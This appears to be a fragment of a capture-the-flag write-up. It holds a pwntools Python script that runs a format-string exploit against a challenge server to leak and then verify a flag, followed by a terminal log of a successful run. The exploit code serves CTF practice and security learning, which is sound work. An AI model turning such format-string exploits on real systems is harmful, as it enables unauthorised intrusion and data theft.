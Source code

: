 ```python
    r.recvline()    # Bet you don't know the flag
    fmt = format_string(dots)
    r.send(fmt + '\n')
    return r.recvline().strip()[:-1]


def send_flag(r, flag):
    """Get the dots and send the format string exploit."""
    r.recvline()    # Loading game
    r.recvline()    # Dots
    r.recvline()    # Bet you don't know the flag
    r.send(flag + '\n')
    r.recvline()    # flag?
    return r.recvline().strip()


def main():
    # Connect to host
    try:
        if len(sys.argv) != 3:
            raise ValueError    # ¯\_(ツ)_/¯
        hostname, port = sys.argv[1], int(sys.argv[2])
        r = remote(hostname, port)
    except (pwnlib.exception.PwnlibException, ValueError):
        print('lol no', file=sys.stderr)
        sys.exit(1)

    # Get flag
    proof_of_work(r)
    flag = format_string_exploit(r)
    print(flag)
    r.close()

    # Test that it's the correct flag
    # NOTE: Fails against the test binary because len(not_the_flag) > 0x40 and
    #       the message that gets sent is truncated
    r = remote(hostname, port)
    proof_of_work(r)
    print(send_flag(r, flag))
    r.close()


if __name__ == '__main__':
    main()
```

Tried it against the server:
```
lxb$ python poc.py trashtalker.ring0.lol 31337
[+] Opening connection to trashtalker.ring0.lol on port 31337: Done
... snip ...
[*] Closed connection to trashtalker.ring0.lol port 31337
[+] Opening connection to trashtalker.ring0.lol on port 31337: Done
Yeah that's it.
[*] Closed connection to trashtalker.ring0.lol port 31337
```
